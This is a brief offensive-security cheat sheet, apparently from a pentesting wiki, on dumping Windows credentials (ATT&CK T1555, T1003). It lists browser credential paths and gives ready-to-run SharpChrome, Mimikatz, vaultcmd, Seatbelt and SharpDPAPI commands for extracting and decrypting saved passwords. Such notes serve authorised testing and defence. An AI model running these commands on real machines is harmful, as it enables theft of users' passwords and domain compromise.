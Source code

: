### Dumping Browser Credentials (T1555.003)
Encrypted with DPAPI in local database.
- Chromium-based browser SQLite in `%LOCALAPPDATA%\<vendor>\<browser>\User Data\Default\Login Data`
- Chrome `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data`

Dump Chrome credentials
```bash
SharpChrome.exe logins
```
(Mimikatz) DPAPI decrypt Chrome
```bash
mimikatz.exe dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Dta" /unprotect
```

### Windows Credential Manager (T1555.004)
Saved credentials
```cmd
vaultcmd /listcreds:"Windows Credentials" /all
```
(Seatbelt) Saved credentials
```cmd
Seatbelt.exe WindowsVault
```
Decrypting DPAPI
- Uses cached keys (may be present if user recently accessed credentials)
- /rpc Microsoft BackupKey Remote Protocol (MS-BKRP) to ask DC to decrypt AES keys because DC keep copies of master DPAPI keys as backup.
```cmd
SharpDPAPI.exe credentials /rpc
```

[RunAs](RunAs.md)
### OS Credential Dumping (T1003)
T1003.001 [LSASS.exe](../../LSASS.exe.md)
T1003.002 [SAM](../../SAM.md)
T1003.003: NTDS
T1003.004/005: [DCC2 + LSA Secrets](../../DCC2%20+%20LSA%20Secrets.md)
T1003.006: DCSync